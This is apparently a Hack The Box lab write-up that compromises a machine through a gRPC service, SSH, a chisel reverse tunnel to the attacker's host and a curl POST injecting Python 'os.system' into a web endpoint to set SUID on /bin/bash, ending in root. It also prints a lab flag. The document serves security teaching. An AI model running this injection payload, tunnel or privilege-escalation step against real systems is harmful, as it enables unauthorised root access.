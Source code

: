 Nmap reveals a strange port that is open, accessing the webpage does not reveal anything.

```
└──╼ [★]$ nmap -sC -A -T4 -p- -Pn 10.129.85.76
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-07 20:42 BST
Nmap scan report for 10.129.85.76
Host is up (0.0044s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 91bf44edea1e3224301f532cea71e5ef (RSA)
|   256 8486a6e204abdff71d456ccf395809de (ECDSA)
|_  256 1aa89572515e8e3cf180f542fd0a281c (ED25519)
50051/tcp open  unknown
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
```

Attempting to connect to it does give us a hint.
```
└──╼ [★]$ telnet 10.129.85.76 50051
Trying 10.129.85.76...
Connected to 10.129.85.76.
Escape character is '^]'.
?�?� ?@Did not receive HTTP/2 settings before handshake timeoutConnection closed by foreign host.
```

After some googling I learned that it was a grpc server and we can access that by installing the gui.

https://github.com/fullstorydev/grpcui
```
└──╼ [★]$ go install github.com/fullstorydev/grpcui/cmd/grpcui@latest
```
```
└──╼ [★]$ chmod -R 777 go/
```
```
└──╼ [★]$ ./grpcui -plaintext 10.129.94.151:50051
gRPC Web UI available at http://127.0.0.1:32953/
```
After installing and running the program we are greeted with a page.

![image](https://github.com/Rogue-1/HTB/assets/105310322/1798d19a-54b0-47d8-8efa-4114f991063c)

![image](https://github.com/Rogue-1/HTB/assets/105310322/e08a1923-efe7-4dcc-81f0-d6052dcd9eca)

![image](https://github.com/Rogue-1/HTB/assets/105310322/6a096f4e-55c8-41a7-b58a-7a4ca47692dd)

![image](https://github.com/Rogue-1/HTB/assets/105310322/ba5b0b95-e080-4f05-8355-b9564cedfe57)

![image](https://github.com/Rogue-1/HTB/assets/105310322/89b443cb-3cd5-40c0-b7bf-bfb58ec18094)
```
└──╼ [★]$ ssh sau@10.129.94.151
sau@10.129.94.151's password: 
Last login: Mon May 15 09:00:44 2023 from 10.10.14.19
sau@pc:~$ id
uid=1001(sau) gid=1001(sau) groups=1001(sau)

sau@pc:~$ cat user.txt
474dded2f0348a7c9aacbad64cb7e513
```


```
└──╼ [★]$ chisel server --reverse --port 1234
2023/07/11 22:04:39 server: Reverse tunnelling enabled
2023/07/11 22:04:39 server: Fingerprint izTDIgf3pIe+DypOlVdLmutBd4Tj0fu+cuNRh3rvtyM=
2023/07/11 22:04:39 server: Listening on http://0.0.0.0:1234
2023/07/11 22:04:40 server: session#1: tun: proxy#R:8000=>8000: Listening

sau@pc:/dev/shm$ ./chisel client 10.10.14.31:1234 R:8000:127.0.0.1:8000
2023/07/11 21:04:15 client: Connecting to ws://10.10.14.31:1234
```

![image](https://github.com/Rogue-1/HTB/assets/105310322/010ff159-666f-4e78-a64d-11f764d553d9)

```
└──╼ [★]$ curl -i -s -k -X $'POST'     --data-binary $'jk=pyimport%20os;os.system(\"bash%20/dev/shm/bash.sh\");f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa'     $'http://127.0.0.1:8000/flash/addcrypted2'
HTTP/1.1 500 INTERNAL SERVER ERROR
Content-Type: text/html; charset=utf-8
Content-Length: 21
Access-Control-Max-Age: 1800
Access-Control-Allow-Origin: *
Access-Control-Allow-Methods: OPTIONS, GET, POST
Vary: Accept-Encoding
Date: Tue, 11 Jul 2023 21:27:37 GMT
Server: Cheroot/8.6.0

Could not decrypt key
```
```
#!/bin/bash

chmod u+s /bin/bash
```
```
sau@pc:/dev/shm$ ./chisel client 10.10.14.31:1234 R:8000:127.0.0.1:8000
2023/07/11 21:27:21 client: Connecting to ws://10.10.14.31:1234
2023/07/11 21:27:21 client: Connected (Latency 3.771334ms)
^C2023/07/11 21:27:40 client: Disconnected
2023/07/11 21:27:40 client: Give up
sau@pc:/dev/shm$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1183448 Apr 18  2022 /bin/bash

```
```
sau@pc:/dev/shm$ bash -p
bash-5.0# cat /root/root.txt
d54654ee************************
```

